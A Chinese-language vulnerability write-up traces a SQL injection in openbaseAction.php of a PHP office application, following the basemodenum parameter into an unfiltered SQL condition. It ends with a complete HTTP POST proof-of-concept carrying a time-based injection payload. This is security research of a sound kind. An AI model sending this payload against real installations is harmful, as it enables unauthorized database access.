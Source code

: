 ![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU3Cicg3giboxSAJz0VX7TdaKWItrPEU9ic6lBKAPEuWaBNRA2egsYNMxoA/640?wx_fmt=png&from=appmsg "")  
  
  
## 漏洞点二 （存在 ip限制）  
  
### 源码分析  
  
  
webmain/task/openapi/openbaseAction.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU4SMyIzngdRHSgogULve1HGKoztZKn73JzxficBNtMy64BGqnf7b5F1g/640?wx_fmt=png&from=appmsg "")  
  
  
  
看getpostarr()方法可以分析出 传入的post值需要为json格式  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUrYPqmSBVcPDsC91x9flf6XprIXib7FicDkZO0icMaKHm54aA40XIP5lQA/640?wx_fmt=png&from=appmsg "")  
  
  
继续分析下面的代码传入的参数basemodenum 赋值给了 $modenum   baseoptid参数 赋值给了 $adminid  但是经过了过滤 无法传入单引号等内容  
  
  
在21行代码中调用getuserid方法对 $adminid 参数进行了查询  并且在22行代码可以得知 需要让21行的查询获得数据 不然会直接报错终止  
  
  
根据查看sql语句可以得知 查询的内容在admin表中  分析可知 最简单方法的就是传入一个1 即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUiclwfzUC99zKticghIuMDnvUT36Unh07tJrZFQeUyWYIBUmsPdYb0bog/640?wx_fmt=png&from=appmsg "")  
  
  
  
继续分析代码 查看querydata方法获得了三个参数做了什么操作  看代码发现 在方法中将传入的 $modenum 也就是 $num 传入了initflow方法中  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUsw6YlMMYCF0bZibGTtUKaDouzbITxOAS33cRicibUIvXdbIBciaFOeWR0g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUUsklF6JBORrXEhwVuNneWHHeHEGdl4gbR10iaTkp0BAguhDRPkIvknA/640?wx_fmt=png&from=appmsg "")  
  
  
继续跟进initflow方法 发现又被传入了initdata 方法中   
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUMSm5lHGh8iacA24JIBHYgTdSFTnRwQGyW1tm0BZm9baKAEl4GbkzRfA/640?wx_fmt=png&from=appmsg "")  
  
  
  
在这里 $num 的值被添加到了sql的一个条件语句中被执行 其中无任何限制 这样我们就可以开始构造poc 进行利用  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU1KKwIrLEfDjOibBT5owj6yMPc1NczCLUYdMo2c1PQcbFxZEUz9nibkhA/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞利用  
  
#### poc  
```
POST /index.php?m=openbase%7Copenapi&d=task&a=querydata HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Cookie: 

{"baseoptid":"1","basemodenum":"a123456' OR SLEEP(0.01)#"}
```